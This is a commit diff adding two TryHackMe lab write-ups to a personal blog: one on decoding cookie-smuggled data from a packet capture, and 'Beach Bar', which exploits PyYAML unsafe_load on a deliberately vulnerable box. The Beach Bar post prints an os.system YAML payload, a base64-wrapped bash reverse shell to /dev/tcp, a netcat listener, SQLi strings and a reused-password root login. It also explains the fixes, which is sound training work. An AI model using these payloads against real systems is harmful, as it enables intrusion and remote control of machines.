

Before and after one commit to mariustudor07/mariustudor07.github.io, a Jekyll site: the page built from blog.html, in a window 1280 px wide and 1400 px high. Shown: the whole window at 92% size, without its empty margins (128-1151 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Add THM Hacker Holidays writeups: Beach Bar and Packed Light
Beach Bar (Boot2Root, Easy): dj/dj creds in login source, YAML
unsafe_load RCE at /import, base64-wrapped reverse shell to bartender,
credential-reuse privesc via stream password in ps to root.

Packed Light (Network Forensics, Easy): hotel_sess_state cookie exfil
reassembled in Wireshark, base64 then single-byte XOR (0x48) decode.

Add Digital Forensics blog category and badge style.

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -22,3 +22,4 @@ blog_categories:
   - "AI Security"
   - "OSINT"
   - "Cloud"
+  - "Digital Forensics"
--- /dev/null
+++ b/_posts/2026-07-31-thm-packed-light.md
@@ -0,0 +1,142 @@
+---
+layout: post
+title: "THM: Packed Light"
+date: 2026-07-31
+category: "Digital Forensics"
+difficulty: "Easy"
+tags: [thm, hacker-holidays, forensics, wireshark, pcap, base64, xor, cyberchef, cryptography]
+excerpt: "No box to attack this time, just a packet capture and a flag that was smuggled out one HTTP cookie at a time. Thirty fragments hidden in a session cookie, base64 on the outside, a single-byte XOR underneath, and one mistake of mine that made a simple cipher look far scarier than it was."
+---
+
+This is a network forensics room, so it breaks the usual pattern for this event.
+There's no IP to scan and no shell to catch. Instead you're handed a single packet
+capture, `traffic.pcapng`, and the whole job is to reconstruct something that was
+smuggled out of a network by reading what the packets were carrying. It's part of
+TryHackMe's Hacker Holidays 2026 event, filed under forensics and crypto, marked
+Easy, and it stays in the Byte Lotus universe (the flag, when it finally drops, is
+a little wink from the resort's ever-watching concierge). As always, this is a
+deliberately built lab, the capture and everything in it are synthetic.
+
+The framing is that some data was exfiltrated, and the brief drops a few hints in its
+usual not-so-subtle way: something is beaconing on port 8080, the interesting stuff is
+in the HTTP headers, and there's a "crypto" layer sitting on top of it. That's three
+things to hold onto: HTTP, headers specifically, and at least one layer of encoding or
+encryption to peel. Which turns out to be a decent map for the whole room.
+
+## Opening the capture
+
+First move is just to load the pcap into Wireshark and get a feel for the traffic:
+
+```bash
+wireshark traffic.pcapng
+```
+
+There's a lot of noise, as there always is, so the skill here is filtering down to the
+part that matters rather than scrolling through thousands of packets by hand. The brief
+already told me it was HTTP and that the headers were the point, so that's where I aimed.
+
+## Finding the smuggled data
+
+Exfiltration over HTTP loves to hide in places that look boring and legitimate, and one
+of the most classic spots is a cookie. A cookie goes out on nearly every request, nobody
+looks at it twice, and you can stuff arbitrary data into it. So I went hunting through the
+request headers for a cookie that didn't look like a normal session token, and there it
+was: a cookie called `hotel_sess_state` that was carrying the actual payload. Very on-theme
+for a hotel box, and exactly the kind of innocuous name that's designed to not get a second
+glance.
+
+Once I knew the field, I could narrow Wireshark down to just the requests that carried it:
+
+```
+http.request && http contains "hotel_sess_state"
+```
+
+The trick that made this manageable was Wireshark's "Apply as Column" feature. Right-click
+the cookie value in the packet detail, apply it as a column, and now every relevant packet
+shows its fragment in a neat vertical list instead of you having to click into each one. The
+data wasn't sent in one shot, it was broken into pieces and dribbled out across many requests,
+which is exactly how real slow-exfil works, so it stays under the radar. I counted thirty
+fragments in total.
+
+The one thing you absolutely cannot get wrong here is order. The fragments have to be
+reassembled in the sequence they were sent, because it's a stream that was chopped up. Wireshark
+shows packets in time order by default, so as long as I read them top to bottom and didn't
+re-sort, the ordering took care of itself. I harvested all thirty fragments in that time order
+and concatenated them into one long string.
+
+## Peeling the layers
+
+Now for the "crypto" layer the brief promised. What I had was a big blob of text, and the
+first tell was the `==` on the end. Trailing `=` (or `==`) is the padding base64 uses, so this
+was almost certainly base64 on the outside. Decoding base64 gave me back raw bytes rather than
+clean text, though, which is the sign that there's another layer underneath. Base64 is an
+encoding, not encryption, so getting bytes-that-aren't-text out of it means something else was
+applied before it was encoded.
+
+The second layer was a single-byte XOR. XOR with one repeating byte is one of the most common
+"lightweight obfuscation" tricks there is, and the nice thing about it is that if you know or can
+guess any part of the plaintext, it falls over immediately. And I did know part of the plaintext:
+every TryHackMe flag starts with `THM`. That's a crib, a known chunk of expected output you can
+test a key against. In this case the key turned out to be a single byte, `0x48`, which is the
+ASCII letter `H`. XOR the decoded bytes against `0x48` and out came the flag:
+
+```
+THM{[redacted]}
+```
+
+Redacted as always, the value isn't the point, the path is.
+
+## The mistake that cost me the most time
+
+I want to be honest about the part that actually slowed me down, because it's a genuinely
+useful lesson and I'll hit it again if I'm not careful.
+
+The tool I reached for on the decode side was CyberChef, which lets you chain operations into a
+"recipe." My first recipe was just `From Base64` then an `XOR Brute Force`, and it produced
+garbage. Not "wrong key" garbage either, it looked like the cipher was multi-byte, like a single
+XOR key couldn't possibly explain the output. I nearly went off down a rabbit hole convinced I
+was dealing with something more complicated than I was.
+
+The actual problem was that my concatenated blob still had newlines in it from how I'd pulled the
+fragments together. Base64 does not tolerate stray newlines and whitespace in the middle of its
+input, it treats them as invalid and the decode comes out corrupted. So `From Base64` was already
+producing junk before XOR ever got a look in, and that junk is what made a clean single-byte XOR
+look like a scrambled mess. The fix was to strip the newlines first. In CyberChef terms, the recipe
+that worked was:
+
+```
+Find / Replace (\n with nothing)  ->  From Base64  ->  XOR Brute Force (crib: THM)
+```
+
+Clean the input, then decode, then break the cipher. The moment I put a Find/Replace to kill the
+newlines at the front of the recipe, the base64 decoded cleanly and the XOR brute force found
+`0x48` in about a second, with the `THM` crib confirming it.
+
+The lesson, which I've written on the metaphorical sticky note: **clean your data before you decode
+it.** Garbage in genuinely does mean garbage out here, and worse, the garbage can disguise itself as
+a harder problem than you actually have. If a decode step is producing nonsense, suspect your input
+is dirty before you assume the algorithm is complicated.
+
+## What I took away
+
+- **Cookies are a classic exfil channel.** A boring-looking header like `hotel_sess_state` that
+  rides along on every request is exactly where smuggled data likes to hide. When you're told to
+  look at HTTP headers, the cookies are prime real estate.
+- **"Apply as Column" in Wireshark is a superpower** for this kind of work. It turns "click into a
+  hundred packets" into "read one tidy list," and it keeps the time ordering for you.
+- **Order matters when you reassemble a stream.** Keep the fragments in the sequence they were
+  captured, don't re-sort, or you'll reconstruct nonsense even with the right decode.
+- **Read the layers from the outside in.** The `==` padding said base64; base64 giving back raw
+  bytes said there's another layer under it; a crib (`THM`) cracked the single-byte XOR. Peel one
+  layer at a time and let each result tell you what's next.
+- **Clean before you decode.** Stray newlines broke my base64 and made a trivial XOR look like a
+  monster. When a decode misbehaves, sanitise the input first.
+
+This was my first proper network forensics room and it felt completely different to the boxes I've
+been doing, more like patient reading than attacking. But the core habit is the same one that keeps
+coming up: slow down, check the boring explanation first (dirty input, wrong ordering) before you
+convince yourself the problem is exotic.
+
+> Room: Packed Light on TryHackMe (Hacker Holidays 2026), Network Forensics / Cryptography, Easy.
+> Flag left out on purpose. A great little room for getting comfortable with Wireshark filters and
+> CyberChef recipe ordering if, like me, you're newer to the forensics side.
--- /dev/null
+++ b/_posts/2026-08-01-thm-beach-bar.md
@@ -0,0 +1,310 @@
+---
+layout: post
+title: "THM: Beach Bar"
+date: 2026-08-01
+category: "Web Exploitation"
+difficulty: "Easy"
+tags: [thm, hacker-holidays, boot2root, yaml, deserialization, rce, reverse-shell, privilege-escalation, credential-reuse]
+excerpt: "A beach bar jukebox that parses playlists with yaml.unsafe_load, which is a fancy way of saying it runs whatever you paste at it. The exploit was quick once I understood it. What actually ate my evening was my VPN, my own netcat listener, and a firewall I set up on my own attack box that was silently eating every reverse shell."
+---
+
+This one is a proper boot2root, and the first thing I want to say about it is that
+the box was not the hard part. The box is rated Easy and it deserves that rating.
+What made this a roughly ninety minute grind instead of a twenty minute one was
+everything around the exploit: my VPN, my listener, and, best of all, a firewall I
+had set up on my own laptop that was quietly dropping every reverse shell before it
+could reach me. So this writeup is two stories stacked on top of each other. There's
+the clean exploit chain, which is genuinely worth knowing, and then there's the
+saga of me fighting my own environment, which is the part I think will actually save
+another beginner some pain.
+
+It's part of TryHackMe's Hacker Holidays 2026 event, so same Byte Lotus universe as
+the other rooms, except this time we're at a beach bar. The theme is a jukebox with
+a song queue that, in the flavour text, "accepts a little more than song titles,"
+and the machine is "wired straight into the floor with the trimmings still attached."
+As with every room in this event, that's the whole vulnerability written out in
+holiday language: user input flows into something that parses it unsafely. Standard
+disclaimer first, this is a deliberately vulnerable lab built to be broken for
+practice, nothing here is a real service.
+
+One housekeeping note before anything else, because it caught me out. The target IP
+changed every time the box redeployed. It started life at `10.128.154.31`, came back
+as `.112` after one reset, and `.117` after another. That is normal for these rooms,
+but if you've written an IP down somewhere, or worse baked it into a payload, a reset
+will quietly invalidate it. More on that later, because it bit me hard.
+
+## Enumeration
+
+Usual opener, a full scan to see what's actually listening:
+
+```bash
+sudo nmap -sC -sV -A <TARGET_IP>
+```
+
+Only two ports, which is refreshingly focused:
+
+```
+22/tcp open  ssh   OpenSSH 9.6p1 Ubuntu
+80/tcp open  http  Gunicorn
+```
+
+SSH I filed away, no creds for it yet. Port 80 is the interesting one. The server
+header says **Gunicorn**, which is a Python WSGI server. So this isn't a static site
+or a PHP app, it's a Python web application, and that single fact ends up being the
+whole ball game. Keep it in your head.
+
+Nothing to click on the front end meant directory enumeration next:
+
+```bash
+gobuster dir -u http://<TARGET_IP> \
+  -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,html
+```
+
+The result told a clear story on its own:
+
+```
+/login       (Status: 200)
+/dashboard   (Status: 302) --> /login
+/export      (Status: 302) --> /login
+/import      (Status: 302) --> /login
+/logout      (Status: 302) --> /login
+```
+
+Everything interesting, the dashboard, an export, an import, all of it 302 redirecting
+back to `/login`. So the whole app is behind authentication, and the only door I could
+actually open was the login page itself. Which meant the login page is where I needed
+to look.
+
+## The credentials were in the page source
+
+Here's the bit I want to be honest about, because I did the beginner thing first. I saw
+a login form and immediately started throwing SQL injection payloads at it. `' OR 1=1--`
+and friends. Nothing. I burned a good few minutes on that before I did the thing I
+should have done first, which is just read the HTML.
+
+Right there in the source of `/login` was a developer comment somebody left in on a
+deadline:
+
+```html
+<!-- staff note: the demo DJ login is still enabled for the soft opening.
+     dj / dj  -- swap this before the season starts (ticket BAR-7) -->
+```
+
+`dj` / `dj`. Logged straight in. The lesson here is one I keep having to relearn: read
+the source before you start attacking. The answer was sitting in plain text, and I'd
+been firing payloads at a login that had a working credential commented three lines
+above the form. View source is free and it's fast, do it first.
+
+## The actual vulnerability: unsafe YAML deserialization
+
+Once I was in, the dashboard let me manage a playlist, and the interesting feature was
+`/import`. It accepts a playlist as YAML, either pasted into a textbox or uploaded as a
+file. And this is where that "it's a Python app" note from the nmap scan pays off.
+
+When a Python app parses YAML, it usually uses the PyYAML library. PyYAML has two ways
+to load: `yaml.safe_load()` and `yaml.unsafe_load()` (the second is also what you get
+from a plain `yaml.load()` with the full Loader). The difference is enormous. Safe
+loading only ever gives you back basic data, strings, numbers, lists, dictionaries.
+Unsafe loading will happily construct arbitrary Python objects from special YAML tags.
+
+That last part is the vulnerability. YAML supports a tag like
+`!!python/object/apply:os.system`, and when an unsafe loader hits that tag while
+parsing, it doesn't just read it as text, it actually calls `os.system` with whatever
+argument you gave it. So the moment an app parses attacker-controlled YAML with
+`unsafe_load`, pasting a playlist stops being pasting a playlist and becomes running
+commands on the server. The jukebox "with the trimmings still attached" is exactly
+this: the parser was left wired up in its dangerous mode.
+
+## Proving code execution before going for a shell
+
+The disciplined move is to confirm you actually have execution before you try anything
+fancy, so my first payload just ran a harmless command. The import result echoed back
+the return code from `os.system`, and a `0` came back, which is the shell's way of
+saying "that command ran and succeeded." That was the confirmation. I had code
+execution on the box, no shell yet, but the door was open.
+
+## The reverse shell, and where the evening went sideways
+
+The plan from here is textbook. Use that execution to fire a reverse shell back to a
+netcat listener on my machine, and catch an interactive session. My payload looked like
+this:
+
+```yaml
+!!python/object/apply:os.system
+- 'echo <BASE64> | base64 -d | bash'
+```
+
+where `<BASE64>` is the base64 encoding of a standard bash reverse shell:
+
+```bash
+bash -i >& /dev/tcp/<TUN0_IP>/4444 0>&1
+```
+
+The reason for the base64 wrapping is practical. When you drop a raw reverse shell
+string with all its quotes and redirects (`>&`, `0>&1`) into a YAML value that's then
+handed to a shell, the special characters get mangled on the way through and the payload
+breaks. Encoding the whole thing to base64 turns it into one clean blob of letters and
+numbers with no shell metacharacters, and you only decode it back to the real command at
+the very last second on the target with `base64 -d | bash`. Plain payload kept failing,
+base64 wrapped one worked. That's a trick worth keeping.
+
+And on my listener:
+
+```bash
+nc -lvnp 4444
+```
+
+That's the theory. In practice, this is where I spent most of my time, and every single
+obstacle was something I'd done to myself. I'm going to lay them all out because I don't
+think I'm the only beginner who'll hit these.
+
+**The VPN kept moving my IP.** I had two OpenVPN config files for the lab, a TCP one and
+a UDP one. I kept switching between them, and each switch dropped me on a different
+subnet: sometimes my `tun0` address was `192.168.192.x`, sometimes `192.168.162.x`. The
+problem is that the reverse shell payload has my IP baked into it. So I'd generate a
+payload with one address, switch configs to "fix" a connection problem, and now the IP
+in my already-fired payload was pointing at an address I no longer had. The shell would
+call home to nobody. The fix was almost stupidly simple: pick one config (UDP was stable
+for me), connect once, and then leave it completely alone. Don't Ctrl-C it, don't switch,
+don't touch it. `ip a show tun0` to see your real current address, put that in the
+payload, and don't change anything underneath it.
+
+**Box redeploys made it worse.** Every time I reset the box I got a new target IP, and
+the reset also seemed to jostle the VPN. So I was chasing a moving target on both ends at
+once. Once I realised that, I stopped resetting the box for no reason. Reset only when you
+actually have to.
+
+**I kept killing my own listener.** This one is embarrassing but common. I'd start
+`nc -lvnp 4444`, then realise I needed to run another command, so I'd Ctrl-C the netcat to
+free up the terminal, run my thing, and then fire the payload. Except now nothing was
+listening, because I'd just killed the listener. The callback would arrive at a closed
+door. The fix is to give netcat its own terminal and never touch that terminal again. Do
+everything else in a second terminal. One window listens, forever, and you leave it alone.
+
+**And then the big one, my own firewall.** After sorting all of the above I still had
+nothing. Netcat was definitely listening, the IP in the payload was definitely correct,
+the payload definitely executed (that `os.system` return code again), and yet no shell.
+Worse, the return code was now non-zero, meaning the command was running but failing.
+That non-zero code was the clue I almost missed.
+
+The thing I'd forgotten is that a while back I had hardened my own attack laptop with
+`ufw`, and I'd set the inbound policy to drop everything:
+
+```
+Chain INPUT (policy DROP)
+```
+
+That's good hygiene for a machine you carry around. But think about what a reverse shell
+actually is. It is an inbound connection. The target connects back to me. So my own
+firewall, doing exactly what I told it to, was silently dropping every callback before
+netcat ever saw it. My hardening was eating my shells. The fix is one line:
+
+```bash
+sudo ufw allow in on tun0
+```
+
+That says "trust inbound traffic, but only on the VPN interface." It opens the door for
+the lab traffic I invited in over `tun0`, while my real network interface stays locked at
+the default drop. The instant I ran that, the very next payload connected. Shell.
+
+```
+bartender@tryhackme-2404:/opt/beach-bar/webapp$
+```
+
+The takeaway I've written down and don't intend to forget: hardening your pentest box is
+a good instinct, but a too-tight inbound policy will quietly eat your reverse shells and
+give you no error to explain why. If you use a firewall on your attack machine, allow
+inbound on your lab interface (`tun0`, and `tun1` if you're on Hack The Box too). Trust
+the traffic you invited, nothing else.
+
+## User flag
+
+Landed as the `bartender` user, so the user flag was one command away:
+
+```bash
+cat /home/bartender/user.txt
+# THM{[redacted]}
+```
+
+Leaving the value out, same as always. The point is the path, not the string.
+
+## Root: credential reuse hiding in plain sight
+
+With a foothold as `bartender`, the privesc turned out to be one of the cleaner lessons
+on the box, and it's the kind of thing that shows up constantly in real environments too.
+
+`sudo -l` didn't hand me anything, so I went looking at what was actually running. A
+plain `ps aux` is one of the first things I check now, because processes running as root
+sometimes carry their secrets right there in the command line for anyone who can list
+them. And this box did exactly that:
+
+```
+root  /opt/beach-bar/venv/bin/python /opt/beach-bar/jukeboxd/jukeboxd.py --stream-pass SunsetSpritz2024! --bitrate 320k
+```
+
+There's a jukebox streaming daemon running as root, and its stream password,
+`SunsetSpritz2024!`, is sitting in plain sight in the process list. Now, a stream password
+is not a login password. There's no reason it should get me anything. Except people reuse
+passwords, and the whole point of this part of the box (the root flag basically tells you
+so afterwards) is that the same secret was reused for the root account. So I just tried it:
+
+```bash
+su root
+# Password: SunsetSpritz2024!
+```
+
+And that was root.
+
+```bash
+cat /root/root.txt
+# THM{[redacted]}
+```
+
+The lesson is that a secret is a secret wherever it lives. A password that was only ever
+meant to authenticate a music stream got reused as the root password, and because it was
+passed as a command-line argument, every user on the box could read it straight out of
+`ps`. Two mistakes stacked: secrets on the command line, and one password doing two jobs.
+
+## How to actually fix this box
+
+Because it's a lab, it's worth stating plainly what the real fixes are, since every bug
+here maps to a common real-world one.
+
+- **The YAML bug:** use `yaml.safe_load()` instead of `yaml.unsafe_load()` (or
+  `yaml.load()` with `SafeLoader`). Safe loading refuses to construct arbitrary Python
+  objects, so the `!!python/object/apply` tag becomes inert text and the whole attack
+  dies. If you're parsing anything a user can influence, safe load is the only correct
+  choice.
+- **The commented-out credential:** don't ship debug logins, and don't leave secrets in
+  source comments. That `dj/dj` note with its own ticket number is painfully realistic.
+- **The password on the command line:** don't pass secrets as process arguments, they're
+  world-readable in `ps`. Use an environment file or a secrets manager.
+- **The reuse:** one password, one job. The root account should never share a secret with
+  a service daemon.
+
+## What I took away
+
+- The exploit was the easy part. My environment fought me harder than the target did, and
+  every obstacle was self-inflicted and fixable. That's oddly encouraging.
+- **Read the source before you attack.** I threw SQLi at a login that had a working
+  credential commented above the form. View source first, every time.
+- **"It's a Python app" is a finding.** The Gunicorn banner is what told me a YAML import
+  might be `unsafe_load`. Match the vuln to the stack.
+- **Base64-wrap reverse shells** to get quotes and redirects through a parser intact.
+- **Pin your environment down.** One VPN config, connected once, left alone. One terminal
+  that only ever listens. Don't chase a target that you keep making move.
+- **Your own firewall can eat your shells.** A drop-by-default inbound policy is good
+  security and a silent reverse-shell killer. `sudo ufw allow in on tun0`.
+- **Check `ps aux` for privesc.** Root processes leak secrets on the command line, and a
+  reused password is a free ride to root.
+
+One more habit this box taught me, almost by accident: because it took so long and I kept
+losing my place, I started reconstructing the whole chain from memory at the end, writing
+out each step in order. Doing that is what made half these lessons click, because I could
+see clearly which problems were the box and which were me. I'd recommend it. When you
+finish a room, close the notes and try to retell the exploit start to finish. The gaps you
+hit are the things you didn't actually understand yet.
+
+> Room: Beach Bar on TryHackMe (Hacker Holidays 2026), Boot2Root, Easy, 60 points.
+> Flags left out on purpose as always. A genuinely tidy little RCE chain, and a great
+> reminder that on an easy box your own setup is often the real boss fight.
--- a/assets/style.css
+++ b/assets/style.css
@@ -373,6 +373,8 @@ a:hover { text-decoration: underline; }
 @media (prefers-color-scheme: dark) { .badge-osint { color: #f0ad4e; background: color-mix(in srgb, #f0ad4e 15%, transparent); } }
 .badge-cloud { color: #1f7ac2; background: color-mix(in srgb, #1f7ac2 13%, transparent); }
 @media (prefers-color-scheme: dark) { .badge-cloud { color: #6fb2f0; background: color-mix(in srgb, #6fb2f0 15%, transparent); } }
+.badge-digital-forensics { color: #1f9c8f; background: color-mix(in srgb, #1f9c8f 13%, transparent); }
+@media (prefers-color-scheme: dark) { .badge-digital-forensics { color: #5fd6c6; background: color-mix(in srgb, #5fd6c6 15%, transparent); } }
 
 .empty { color: var(--muted); text-align: center; padding: 44px 0; }
 
````
